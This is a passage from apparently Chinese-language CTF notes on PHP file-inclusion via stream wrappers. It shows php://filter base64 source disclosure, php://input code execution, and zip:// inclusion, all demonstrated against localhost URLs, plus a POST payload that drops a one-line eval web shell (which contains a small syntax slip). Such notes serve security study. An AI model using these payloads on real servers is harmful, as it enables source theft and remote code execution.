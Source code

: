 不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

参考自：http://php.net/manual/zh/wrappers.php.php#refsect2-wrappers.php-unknown-unknown-unknown-descriptioq

php://filter 读取源代码并进行base64编码输出，不然会直接当做php代码执行就看不到源代码内容了。

PHP.ini：

php://filter在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

![akaRE9.png](https://s1.ax1x.com/2020/07/28/akaRE9.png)

	http://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php

php://input 可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

PHP.ini：

allow_url_fopen ：off/on

allow_url_include：on

![akdCDg.png](https://s1.ax1x.com/2020/07/28/akdCDg.png)

测试现象：

	http://127.0.0.1/cmd.php?file=php://input

	[POST DATA] <?php phpinfo()?>

也可以POST如下内容生成一句话： <?php fputs(fopen("shell.php","w"),'<?php eval($_POST["cmd"];?>');?>

**【zip://, bzip2://, zlib://协议】**

zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。

参考自：http://php.net/manual/zh/wrappers.compression.php

**【zip://协议】**

使用方法：

	zip://archive.zip#dir/file.txt

	zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

测试现象：

	http://127.0.0.1/cmd.php?file=zip://D:/soft/phpStudy/WWW/file.jpg%23phpcode.txt
